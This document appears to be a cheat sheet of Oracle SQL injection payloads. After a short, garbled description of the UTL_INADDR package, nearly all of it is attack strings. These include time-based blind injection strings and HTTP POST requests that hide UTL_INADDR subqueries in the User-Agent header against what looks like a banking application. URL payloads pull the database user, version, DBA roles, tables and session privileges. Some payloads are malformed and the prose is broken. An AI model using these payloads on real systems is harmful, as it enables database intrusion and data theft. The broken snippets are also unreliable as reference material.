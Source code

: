 # Oracle Injection Syntax

The UTL_INADDR package provides a PL/SQL procedures to support internet addressing.It provides an API to retrieve host names and IP addresses of local and remote hosts retrieving host names and IP addresses of remote hosts from PL/SQ It contains two functions which return the server machine name and its IP address. 
When an Web application is being used Oracle Database. there is only possible to perform  SQL Injection PL/SQL Syntax Like IF condition THEN when_true [ELSE when_false] END IF.
IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END
```
1' and if(1=1, sleep(20), true)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), false)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), true) -- -
1' or if(1=1, sleep(20), true) -- -
1' and if(1=1, sleep(20), false) -- -
1' or if(1=1, sleep(20), true) -- -
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select user from dual))--+) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select banner from v$version where rownum=1))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select username FROM user_role_privs WHERE granted_role='DBA';))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1

```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select owner, table_name FROM all_tables;))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
```
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT * FROM session_privs;(Retrieves Current Privs)) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
```
